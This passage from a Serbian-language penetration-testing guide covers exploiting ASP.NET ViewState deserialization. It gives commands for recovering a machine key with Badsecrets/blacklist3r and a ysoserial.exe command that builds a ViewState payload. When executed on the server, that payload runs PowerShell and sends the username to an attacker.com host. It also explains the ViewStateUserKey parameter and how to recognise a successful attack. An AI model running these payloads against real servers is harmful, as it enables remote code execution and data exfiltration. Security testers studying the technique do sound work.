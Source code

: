 Za detaljniji opis IISDirPath i TargetPagePath [pogledajte ovde](https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/)

Ili, sa [**Badsecrets**](https://github.com/blacklanternsecurity/badsecrets) (sa vrednošću generatora):

```bash
cd badsecrets
python examples/blacklist3r.py --viewstate JLFYOOegbdXmPjQou22oT2IxUwCAzSA9EAxD6+305e/4MQG7G1v5GI3wL7D94W2OGpVGrI2LCqEwDoS/8JkE0rR4ak0= --generator B2774415
```

![https://user-images.githubusercontent.com/24899338/227043316-13f0488f-5326-46cc-9604-404b908ebd7b.png](https://user-images.githubusercontent.com/24899338/227043316-13f0488f-5326-46cc-9604-404b908ebd7b.png)

Kada se identifikuje važeći ključ mašine, **sledeći korak je generisanje serializovanog payload-a korišćenjem** [**YSoSerial.Net**](https://github.com/pwntester/ysoserial.net)

```
ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/$env:UserName" --path="/content/default.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="F6722806843145965513817CEBDECBB1F94808E4A6C0B2F2"  --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45"
```

Ako imate vrednost `__VIEWSTATEGENERATOR`, možete **koristiti** parametar `--generator` sa tom vrednošću i **izostaviti** parametre `--path` i `--apppath`.

![](https://notsosecure.com/sites/all/assets/group/nss\_uploads/2019/06/4.2.png)

Uspešno iskorišćavanje ranjivosti deserijalizacije ViewState-a dovest će do zahteva van opsega ka serveru pod kontrolom napadača, koji uključuje korisničko ime. Ovaj tip eksploatacije je prikazan u dokazu koncepta (PoC) koji se može pronaći kroz resurs pod nazivom "Eksploatisanje deserijalizacije ViewState-a korišćenjem Blacklist3r i YsoSerial.NET". Za dalje detalje o tome kako proces eksploatacije funkcioniše i kako koristiti alate poput Blacklist3r za identifikaciju MachineKey-a, možete pregledati [PoC uspešne eksploatacije](https://www.notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net/#PoC).

### Test slučaj 6 – ViewStateUserKeys se koristi

Svojstvo **ViewStateUserKey** može se koristiti za **odbranu** od **CSRF napada**. Ako je takav ključ definisan u aplikaciji i pokušamo generisati **ViewState** payload sa metodama koje smo do sada razmatrali, **payload neće biti obrađen od strane aplikacije**.\
Potrebno je koristiti još jedan parametar kako biste pravilno kreirali payload:

```bash
--viewstateuserkey="randomstringdefinedintheserver"
```

### Rezultat uspešne eksploatacije <a href="#poc" id="poc"></a>

Za sve test slučajeve, ako ViewState YSoSerial.Net payload radi **uspešno**, server odgovara sa "**500 Internal server error**" sa odgovorom "The state information is invalid for this page and might be corrupted" i dobijamo OOB zahtev.
